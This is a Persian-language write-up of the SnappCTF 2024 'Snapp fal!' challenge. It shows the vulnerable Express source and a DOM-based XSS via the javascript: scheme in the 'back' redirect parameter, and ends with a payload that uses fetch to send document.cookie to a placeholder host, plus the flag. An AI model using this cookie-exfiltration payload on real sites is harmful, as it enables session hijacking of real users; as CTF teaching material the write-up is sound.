 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - XSS
  - DOM-Based XSS
  - Web
---
```



<h1 dir="ltr">Snapp fal!</h1>

<center>

![snappfal.png](./snappfal.png)

</center>

همینطور که میبینین این یه چالش XSS هستش که باید سعی کنیم کوکی های ادمین رو بخونیم و برای خودمون بفرستیم

بعد از باز کردن آدرس وبسایت ما با این صفحه روبرو میشیم

<center>

![snappfal1.png](./snappfal1.png)

</center>

اگه روی دکمه *نشون بده* کلیک کنین وارد یه صفحه میشین که آدرسش به این صورت هستش:

‍‍```https://snappfal.spchallenge.ir/fal?back=/&fal=some-random-text-here```

که توی اون صفحه بهتون متن فال رو نشون میده که (همون چیزی هستش که توی پارامتر fal قرار داره) و بعد از چند ثانیه به آدرسی که توی پارامتر back قرار داره ریدایرکت میشیم


برای این سوال به ما سورس چالش رو دادن که میتونین اون رو دانلود کنین و اگه به فایل src.js  دقت کنیم که چطوری فال هارو برای ما نشون میده و چطوری مارو ریدایرکت میکنه

```js
#!/usr/bin/env node
const express = require('express')
const fs = require('fs')

const app = express()
const indexPage = fs.readFileSync('./pages/index.html').toString()
const falPage = fs.readFileSync('./pages/fal.html').toString()
const randomFals = [
	'%D8%AC%D9%84%D8%B3%D9%87%20%D8%A8%D8%B9%D8%AF%DB%8C%20%DA%A9%D9%84%D8%A7%D8%B3%D8%AA%20%DA%A9%D9%86%D8%B3%D9%84%20%D9%85%DB%8C%D8%B4%D9%87',
	'%D9%81%D8%B1%D8%AF%D8%A7%20%D8%AA%D9%88%20%DB%8C%DA%A9%20%D8%AA%D8%B1%D8%A7%D9%81%DB%8C%DA%A9%20%D8%B3%D9%86%DA%AF%DB%8C%D9%86%20%DA%AF%DB%8C%D8%B1%20%D9%85%DB%8C%DA%A9%D9%86%DB%8C',
	'%D8%AD%D9%82%D9%88%D9%82%D8%AA%20%D8%B3%D8%A7%D9%84%20%D8%AF%DB%8C%DA%AF%D9%87%20%D8%B3%D9%87%20%D8%A8%D8%B1%D8%A7%D8%A8%D8%B1%20%D9%85%DB%8C%D8%B4%D9%87'
]

app.get('/',(req,res)=>{
	res.send(indexPage)
})

app.get('/random-fal',(req,res)=>{
	res.redirect('/fal?back=/&fal='+randomFals[Math.floor(Math.random()*randomFals.length)],)
})

app.get('/fal',(req,res)=>{
	let to = (req.query.back ?? '/').toString()
	let fal = (req.query.fal || '').toString()

	to = to.replaceAll('"','\\x22').replaceAll('<','\\x3c')
	fal = fal.replaceAll('"','&quot;').replaceAll('<','&lt;')

	res.send(fs.readFileSync('./pages/fal.html').toString().replace('$fal$',fal).replace('$URL$',to))
})

app.listen(8000, () => {
	console.log('Server listening on port 3000')
})
```

توی مسیر <span dir="ltr">**/random-fal**</span> یک فال رندوم از آرایه randomFals میگیره و به مسیر <span dir="ltr">**/fal**</span> ریدایرکت میشیم

و توی مسیر <span dir="ltr">**/fal**</span> یه *back*, *fal* داریم که *back* آدرسی هستش که به اون ریدایرکت میشیم و fal هم متنی هستش که تو صفحه بهمون نشون میده ولی اگه دقت کنین مقدار fal escape میشه و نمیتونیم برای اون xss بزنیم

خب بیاین یه نگاهی به سورس صفحه ای بندازیم که توش فال ها به ما نشون داده میشه:

```sh
$  curl https://snappfal.spchallenge.ir/fal?back=ADDR_GOES_HERE&fal=FAL_GOES_HERE 
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Snapp fal!</title>
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Vazirmatn:wght@400&display=swap" rel="stylesheet">
<style>
    body {
        background-color: white;
    }

    .cont {
        display: flex;
        justify-content: center;
        align-items: center;
        height: 100vh; 
    }

    .card {
        background-color: #f7f6f2;
        padding: 60px 40px;
        border-radius: 10px;
        text-align: center;
    }

    button:hover {
        background-color: #40a38b;
    }

    span {
        color: #81766d;
        font-family: 'vazirmatn', sans-serif; 
        font-size: 32px;
        font-weight: bold;
        display: block;
    }
</style>
</head>
<body>
    <div class="cont">
        <div class="card">
            <span></span>
        </div>
    </div>
    <script>
        setTimeout(_=>{
            document.location = "ADDR_GOES_HERE"  
        },2000)
    </script>
</body>
</html>
```

خب مثله اینکه ادرسی که ما بهش میدیم میره مستقیم میشینه توی document.location ، پس اگه از javascript scheme استفاده کنیم میتونیم XSS بگیریم

ضمن اینکه توضیحات چالش هم به ما یه جورایی هینت داده و این [آدرس](https://portswigger.net/web-security/cross-site-scripting/dom-based) رو بهمون داده تا یه نگاهی بهش بندازیم

```
/fal?javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

به جای REDACTED آدرسی سرور خودتون رو بزارین تا فلگ براتون ارسال بشه یا اینکه از webhook.site استفاده کنین

حالا کافیه که آدرس رو بدیم به ادرس بات که برامون فلگ رو بفرسته xd

```
final addr: https://snappfal.spchallenge.ir/fal?back=javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{89d36f80b85bde916fbdeb8592c1b368}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵
